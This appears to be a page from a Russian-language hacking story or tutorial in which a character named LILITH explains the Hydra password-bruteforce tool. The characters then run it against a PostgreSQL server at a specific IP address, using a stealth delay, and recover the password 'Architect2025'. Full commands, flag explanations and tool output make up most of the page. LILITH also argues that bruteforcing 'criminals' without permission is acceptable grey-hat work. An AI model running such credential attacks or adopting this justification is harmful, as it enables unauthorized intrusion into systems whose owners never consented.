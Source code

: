 **LILITH:** *"Объясню hydra для bruteforce."*

### 📚 LILITH объясняет: Hydra — Bruteforce tool

**LILITH:** *"Hydra — инструмент для bruteforce атак на authentication.*

*Что делает: Пробует тысячи паролей автоматически.*

*Метафора: У тебя 10,000 ключей. Ты пробуешь каждый пока один не подойдёт.*

*ЭТИЧНО? Да, если:*
1. *Ты тестируешь СВОЮ систему*
2. *Или у тебя есть разрешение*
3. *Или цель — преступники (grey hat, сегодняшний случай)*

*НЕэтично: Bruteforce случайных сайтов.*

*Команда:*

```bash
hydra -l postgres -P /usr/share/wordlists/rockyou.txt \
  195.123.221.47 postgres -t 4 -w 10
```

*Флаги:*
- `-l postgres` = username (логин)
- `-P rockyou.txt` = password list (14 миллионов паролей)
- `postgres` = сервис (PostgreSQL)
- `-t 4` = 4 потока (параллельные попытки)
- `-w 10` = wait 10 секунд между попытками (stealth)

*Проблема: 14 миллионов паролей × 10 секунд = 1600+ дней.*

*Решение: Используем short list (1000 самых распространённых).*

*Попробуем?"*

**Макс:** *"Да. Но у нас нет 1600 дней."*

**Alex:** *"У нас есть другая информация. Anna нашла username в Docker backdoor code: 'admin'. Попробуй username 'admin' вместо 'postgres'."*

**Макс:** *"Пробую."*

### 💻 Successful Bruteforce

**Макс:**
```bash
hydra -l admin -P common_passwords.txt \
  195.123.221.47 postgres -t 4 -w 5
```

**Вывод (через 3 минуты):**
```
Hydra v9.5 (c) 2023 by van Hauser/THC
[DATA] max 4 tasks per 1 server
[DATA] attacking postgres://195.123.221.47:5432/
[5432][postgres] host: 195.123.221.47   login: admin   password: Architect2025
[STATUS] 1 valid password found
```
